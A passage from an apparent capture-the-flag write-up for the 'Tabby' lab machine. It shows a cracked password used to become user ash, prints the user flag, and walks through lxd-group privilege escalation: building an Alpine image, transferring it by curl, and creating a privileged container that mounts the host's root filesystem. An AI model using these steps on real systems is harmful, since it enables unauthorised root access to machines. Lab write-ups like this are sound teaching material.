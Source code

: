 And it cracked the password as "admin@it"

```
tomcat@tabby: /var/www/html/files$ su ash
su ash
Password: admin@it

ash@tabby:/var/www/html/files$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)

ash@tabby:/var/www/html/files$ cat /home/ash/user.txt
cat /home/ash/user.txt
e43c28adc365eca134046f4217125178

ash@tabby:/var/www/html/files$
```

Now we have user access 

# Root privilege 

From the above result, we can see that "ash" is member of the "lxd" group.

The following links provide some great information into the `lxd` group and exploiting it:

- https://ethicalhackingguru.com/the-lxd-privilege-escalation-tutorial-how-to-exploit-lxd/
- https://www.hackingarticles.in/lxd-privilege-escalation/

A member of the local "lxd" group can effectively escalate the privileges on the host operating system to root in an instant. This is true whether or not the person has been granted sudo access, and it does not need them entering their password. Even with the LXD snap package, the vulnerability persists. This is because LXD is a root process that performs activities for anybody with write access to the LXD UNIX socket, and it frequently ignores the calling user's rights.

We'll need the alpine-builder package to take use of this. I used git clone to obtain the package: git clone https://github.com/saghul/lxd-alpine-builder.git and then transferred it to the tabby host using a python web server hosted on my kali machine. I was able to transfer it using curl -O from there. We needed to build it using the following commands after we had the alpine package on the host:

````
cd lxd-alpine-builder
sudo ./build-alpine
````

From there, I needed to configure LXD, so I started the LXD initialization process with the "lxd init" comman. After the image has been built it can be added as an image to LXD as follows:

```
lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias hotshoto
```

Now that I have created a new lxd container, as a final step I needed to give the container security privileges and then set its mount path as "/mnt" using the following commands:

```
lxc init newalpine hotshoto -c security.privileged=true
lxc config device add hotshoto container disk source=/ path=/mnt/root recursive=true
```
